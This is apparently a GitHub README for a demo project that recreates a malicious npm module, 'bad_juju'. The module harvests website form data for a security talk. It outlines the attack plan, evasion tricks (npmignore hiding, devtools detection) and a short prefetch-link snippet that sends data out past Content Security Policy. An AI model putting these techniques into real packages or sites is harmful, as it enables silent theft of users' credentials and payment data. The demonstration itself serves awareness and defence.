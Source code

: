 If you're like me, you have grown to love how productive you can be using NPM. There is a staggering number of common problems that have already been solved. As developers, we tend to have a great deal of trust towards NPM and the code that it hosts. How often do we carefully examine the code we are about to import into our projects?

The following project aims to show the dangers of blindly importing NPM modules. It shows how just because you can see the code on Github does not mean the module you are importing is safe. It also demonstrates how all it takes is one disgruntled employee to start harvesting user's data, both silently and indefinitely. It shows just how hard it is to sniff out such an attack by utilizing some clever tricks. Finally, it aims to show how our as our javascript project's dependencies grow, our risk of being affected by such an attack increases dramatically.

##### Credit

This entire project is based off [this Medium Post](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5). Credit to it's author, David Gilbertson, for all the ideas and even some of the code.

##### What all is here?

1. A basic React app with some form inputs that we will harvest
    * Created with create-react-app
    * found in /demo/src
2. A npm module, 'bad_juju', that will house our malicious code while presenting itself as a useful module
    * found in /node_modules/bad_juju
3. An api to receive the form data
    * Express server

##### Running the React Application

```javascript
# within demo dir
> yarn start
```

##### Running the API

```javascript
# within demo dir
> node ./api
```

##### How does the attack work?

1. User creates seemingly useful node_module
2. When imported, our node_module applies exploit to all forms on the site/application
3. Send all form data to an API - this should a) not be visible to humans and b) appear as though its just an analytics link
4. Be clever about how/when we send the form data and use all the information available to judge how safe it is to send
5. Make Pull Requests to Open Source projects and attempt to add our dependency to the project
6. Sit back and watch the data pour in

##### What shows in Github is not necessarily what is in NPM
using .gitignore, .npmignore, and the files configuration option in our package.json, we can have different code in NPM than what shows in Github. So you really have no clue what code you are running from NPM, even if you have complete access to the github source. The only way to check this would be to check the 3 config files from the first sentence of this section. I bet you don't do that every time you install an NPM module, do you?


##### Content Security Policy
This is supposed to be our saving grace, right? Wrong. In Chrome, we can bypass the content security policy using the following code
```javascript
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```

##### Why is NPM the distribution method?
When we add a dependency to our project, NPM will automatically pull in all of this new dependency's dependencies. This means that if one popular package gets infected, it will likely spread to hundreds or thousands of smaller packages. An infected top level package would be bad news for everyone. Remember left_pad?

##### So what... I can never use NPM modules?
Well that certainly is one option... If you truly want to ensure that you will never fall victim to this attack, you must isolate any pages with sensitive form data outside of the scope of the NPM modules. Example, for a login or checkout screen, you may want to embed an isolated page within an iFrame. This way no offending code will be able to attack the content with the iFrame.

##### Presenting this content
I created this project for a couple of reasons, namely, to recreate what David Gilbertson has described in his blog post. I ended up having a ton of fun setting this up, and wanted to turn it into a short talk - not unlike those you may find at a developers conference. 

Without further ado, here's the order I settled on when presenting:

1) Background terminology
    * What is NPM?
    * What is Content-Security-Policy? CORS?
    * What is fetch?
2) Demo the React Application + Look at the App/Form code
3) Demo the api + Look at the api code
    * Reminder that in the real world, the domain would look like an analytics site
4) Toggle on various checks in the code
    1) QA working
    2) Devtools open (The Heisenberg Manuever)
    3) Known Devices
    4) In Dev/UAT/QA/Staging environment
5) Gitignore and Npmignore tricks
6) Obfuscated fetch (cipher technique + EventSource API)
7) Content-Security-Policy Bypasses
    * Append created link element w/ prefetch
    * report-uri not explicitly set
    * default-uri not explicitly set
    * Pre-reading the active Content-Security-Policy and acting on it
    * undefined form-action override
      * only perform once and bounce back - hope the user just shrugs it off
8) What can you do about it?
9) Questions/Comments


##### Possible Improvements
* Failed api requests should fail silently
* This demo got more involved than I was anticipating, proper tests around the exploit would be nice.
* A more elegant (read: functional) way to configure/run the various safety nets

